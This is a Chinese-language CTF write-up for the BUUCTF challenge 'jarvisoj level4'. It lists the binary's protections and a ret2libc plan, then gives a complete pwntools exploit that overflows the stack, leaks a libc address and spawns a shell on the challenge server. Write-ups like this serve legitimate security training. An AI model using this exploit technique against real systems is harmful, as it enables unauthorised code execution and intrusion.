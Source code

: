 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level4
date: 2022-3-27 17:18:20
permalink: /pages/2e1547494524d19d
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level4

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level4/level4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level4_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level4_1.png)

## 思路分析

1. 目前信息：
   - vulnerable_function函数可溢出
   - 无system、/bin/sh与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的ret2libc解法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level4/level4'
io = remote('node4.buuoj.cn', 26609)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136+4
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
payload = flat(['a'*padding, write_plt, vulnerable_function,1, libc_start_main_got, 4])
io.send(payload)
leak_libc_start_main = u32(io.recv(4))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```